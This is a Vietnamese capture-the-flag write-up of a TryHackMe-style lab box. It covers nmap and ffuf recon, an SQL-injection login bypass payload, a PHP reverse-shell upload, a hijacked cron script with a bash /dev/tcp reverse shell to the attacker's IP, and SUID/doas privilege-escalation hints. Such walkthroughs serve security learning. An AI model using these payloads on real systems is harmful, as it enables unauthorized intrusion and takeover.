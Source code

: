 # [THM] RootMe write-up

- IP: 10.10.76.27

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.76.27

![Scan nmap](./img/nmap-scan.png)

Có 3 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 và 445 chạy dịch vụ HTTP 

Ta thấy port 80 và 445 đều chạy dịch vụ http và đều có giao diện là default page apache2 nên tiếp tục scan bằng công cụ fuff để tìm thư mục ẩn 
> ffuf -u "http://10.10.76.27/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf scan port 80](./img/ffuf-scan80.png)
Ta nhận thấy có các thư mục ẩn `/admin`,`/passwd`,`/shadow` cùng kiểm tra các thư mục đó

Tìm thấy file id_rsa trong thư mục `/admin` có nội dung như hình ảnh bên dưới. Có thể đoán được là chuỗi này đã được mã hóa bởi thuật toán nào đó, ta sẽ thử thuật toán phổ biến nhất đó là base64 xem có gì không
![ID_RSA](./img/id_rsa.png)

![Encode id rsa](./img/id_rsa_encoded.png)
Chúng ta đã đoán đúng nó được mã hóa bằng base64 nhưng kết quả nhận được lại hơi thất vọng

Kiểm tra thư mục `/passwd`,`/shadow` có chung nội dung và khi giải mã nội dung tương tự như trên
![Encode shadow](./img/shadow-encoded.png)

Vậy thì ta sẽ tiếp tục scan với port 445
> ffuf -u "http://10.10.76.27:445/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf scan port 445](./img/ffuf-scan445.png)
Ta đã phát hiện ra thư mục ẩn `/management`

Giao diện thư mục ẩn `/management`
![Web interface](./img/web-interface.png)

Phát hiện ra trang `/login` ta sẽ thử attack vào các ô input với các lỗ hổng cơ bản như XSS hay SQLi
![Login interface](./img/login-interface.png)

## Exploit
Sau khi thử thì đã thành công với SQLi payload `admin'or 1=1-- -` và mật khẩu bất kì ta có thể truy cập vào dashboard của administrator
![Admin interface](./img/admin-interface.png)

Khi tìm kiếm thì nhận ra avatar của admin có thể được upload lên mà không hề lọc những file có thể thực thi mã nguồn, tận dụng điều này ta sẽ up file reverse shell lên để chiếm quyền shell của user web này. Sau khi tạo **netcat lister** và upload file `shell.php` thì ta đã vào được user **www-data**

![User shell](./img/user-shell.png)

## user.txt
Hiện tại đã tìm được file `user.txt` nhưng với user **www-data** không có quyền read file này vậy chúng ta cần tìm cách truy cập vào user có quyền xem được file này

![User flag fail](./img/user-flagfail.png)

Sau khi kiểm tra và thấy crontab được config chạy file backup.sh với quyền của user `plot_admin` vậy nên ta sẽ tạo 1 file backup.sh giả mạo để có thể truy cập shell với quyền user trên

![Cron tab](./img/cron-tab.png)

```sh
www-data@plotted:/var/www/scripts$ mv backup.sh backup2.sh
mv backup.sh backup2.sh
www-data@plotted:/var/www/scripts$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.21.113.26/4321 0>&1' > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ ls
ls
backup.sh  backup2.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.21.113.26/4321 0>&1
www-data@plotted:/var/www/scripts$ 
```

Sau khi đợi cron run ta đã có shell với quyền user `plot_admin` vậy giờ ta đã có thể lấy được flag trong user.txt

![User flag](./img/user-flag.png)

## Privilege escalation
> find / -perm -4000 -type f 2>/dev/null
Để kiểm tra tệp tin nào có thể được thực thi với quyền SUID bất thường không và đã nhận ra `/usr/bin/doas`

![SUID permission](./img/suid-per.png)

Nhận thấy rằng **doas** là một chương trình thay thế cho **sudo** vì vậy ta sẽ kiểm tra config xem nó có gì đặc biệt không

![Sudo no pass](./img/sudo-nopass.png)

Openssl được cho phép chạy với quyền sudo mà không cần mật khẩu, ta sẽ tìm cách leo thang đặc quyền thông qua nó tham khảo [GTFOBINS](https://gtfobins.github.io/gtfobins/openssl/)

